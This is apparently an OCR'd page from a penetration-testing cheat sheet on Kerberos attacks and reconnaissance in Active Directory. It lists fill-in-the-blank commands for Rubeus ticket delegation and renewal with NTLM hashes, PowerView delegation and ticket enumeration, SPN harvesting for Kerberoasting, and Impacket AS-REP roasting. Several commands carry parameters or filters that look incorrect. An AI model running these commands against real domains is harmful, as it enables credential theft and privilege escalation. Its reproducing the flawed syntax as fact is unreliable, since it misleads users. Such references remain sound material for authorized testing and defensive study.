 #### Exploiting Kerberos Unconstrained Delegation
- **Rubeus TGT Delegation**:
  ```powershell
  Rubeus.exe tgtdeleg /target:<target_computer>
  ```
  This command can be used to exploit systems configured with unconstrained delegation, allowing an attacker to impersonate any user by requesting their TGT.

#### Kerberos Ticket Renewal (Ticket Refresh)
- **Rubeus Renew Tickets**:
  ```powershell
  Rubeus.exe renew /target:<target_service> /user:<username> /rc4:<NTLM_hash>
  ```
  Renewing a Kerberos ticket allows an attacker to extend the ticket’s lifetime.

## Internal Reconnaissance with Kerberos

#### Enumerate Kerberos Tickets for Specific Services
- **PowerView**:
  ```powershell
  Get-DomainSPNTicket -UserName <service_account>
  ```
  Enumerates and retrieves tickets associated with specific service accounts.

#### Identify Accounts with High Privileges
- **Rubeus Triage**:
  ```powershell
  Rubeus.exe triage /show
  ```
  This command lists high-value tickets (e.g., those associated with admin accounts).

#### Enumerate Delegation Rights
- **PowerView**:
  ```powershell
  Get-DomainUser -TrustedToAuth
  Get-DomainComputer -TrustedToAuth
  ```
  Identifies users and computers with TrustedToAuthenticateForDelegation privileges.

#### Extract All Service Principal Names (SPNs)
- **ldapsearch**:
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "dc=domain,dc=com" "(objectClass=servicePrincipalName)" servicePrincipalName
  ```
  This command enumerates all SPNs in the domain, which can be targeted for Kerberoasting.

#### Identify Kerberos Pre-Authentication Disabled Accounts
- **GetNPUsers.py (Impacket)**:
  ```bash
  GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat -dc-ip <target_ip>
  ```
  Identifies user accounts with Kerberos Pre-Authentication disabled (useful for AS-REP roasting).

